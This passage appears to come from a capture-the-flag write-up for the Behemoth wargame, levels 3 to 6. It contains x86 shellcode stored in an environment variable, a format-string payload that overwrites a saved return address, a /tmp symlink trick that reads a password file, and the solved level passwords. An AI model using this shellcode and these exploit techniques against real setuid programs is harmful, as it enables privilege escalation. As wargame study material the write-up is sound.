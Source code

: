 As first step I loaded shellcode in an env variable called `SHELLCODE`.

```bash
$ export SHELLCODE=$(python -c 'print "\x90"*34+"\xeb\x2c\x31\xf6\x5e\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xcc\x32\x66\xb9\xcc\x32\xb0\x46\xcd\x80\x31\xd2\x31\xdb\x31\xc9\x31\xc0\xb0\x0b\x89\xf3\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xcf\xff\xff\xff\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x74\x6d\x70\x2f\x32\x32\x32\x32\x2f\x63\x6f\x6d"')
```


Then in core dump i see that RA is stored in 0xffffd60c, so with format string (direct parameter access) I overwrite that stack address with shellcode loaded in env.


```bash
$ (python -c 'print "\x0c\xd6\xff\xff"+"\x0d\xd6\xff\xff"+"\x0e\xd6\xff\xff"+"\x0f\xd6\xff\xff"+"%20x%6$n"+"aa"+"%184x%7$n"+"%33x%8$n"+"%9$n"';cat)| ./behemoth3
```

##### pass=ietheishei


------------------------------------------------------------------------------------------------------------------------------------

## level4->level5

With ltrace I discovered that the program open file called `/tmp/pid_of_process`.
So the programs open that file read the content and prompt it.
The only things to do here is to guess the pid of launched process, and that was quite simple with strace.
I created a link to a flag file, in `tmp` directory, with `$PIDGUESSED` name.
so before call behemoth4:

```bash
$ ln -s /etc/behemoth_pass/behemoth5 /tmp/20548
```
And now we have the flag


##### pass=aizeeshing

------------------------------------------------------------------------------------------------------------------------------------


## level5->level6


With strace I was able to know that the program failed after open because tries to open flag file, and with strace call it cannot take suid privileges.

So I created in tmp directory a copy of suid program.
Then touch a fake flag and edit the bytecode to make it the new flag file.


Now we can with strace try to analyze what happen:
```c
__libc_start_main(0x565558c0, 1, 0xffffd724, 0x56555ad0 <unfinished ...>
fopen("//////////tmp/bbbb/behemoth6", "r")                                                                    = 0x56558008
fseek(0x56558008, 0, 2, 0x565558d7)                                                                           = 0
ftell(0x56558008, 0, 2, 0x565558d7)                                                                           = 24
rewind(0x56558008, 0, 2, 0x565558d7)                                                                          = 0xfbad2488
malloc(25)                                                                                                    = 0x56559170
fgets("flag{ciao_sono_la_flag}\n", 25, 0x56558008)                                                            = 0x56559170
```